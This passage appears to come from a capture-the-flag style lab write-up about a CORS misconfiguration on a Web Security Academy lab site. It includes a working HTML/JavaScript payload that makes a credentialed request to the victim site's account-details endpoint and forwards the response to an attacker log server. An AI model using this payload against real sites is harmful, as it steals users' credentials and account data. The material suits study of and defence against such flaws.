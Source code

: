   <img src="image2.png" width="800" hight="500"/>
</p>

Then, we can build a JavaScript code to send the credentials of this website (admin) to our server.

Suppose, we build the following html and send it to the admin to click on it

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Test</title>
</head>
<body>
    <script>
        // When page loaded
        // 1- Send a HTTP GET request to https://0aeb003b04ada55cc0090ca40017000a.web-security-academy.net (will accepts its)
        // 2- After received the response
        // 3- Send it to our log server 
        var req = new XMLHttpRequest();
        var url = "https://0aeb003b04ada55cc0090ca40017000a.web-security-academy.net/accountDetails";
        req.open("Get", url, true);
        req.withCredentials = true;
        req.send(null); // send nothing in the body (GET)
        req.onreadystatechange = function() {
            if (req.readyState == XMLHttpRequest.DONE) {
                fetch("/log?key"+ req.responseText);
            }
        };
    </script>
</body>
</html>

```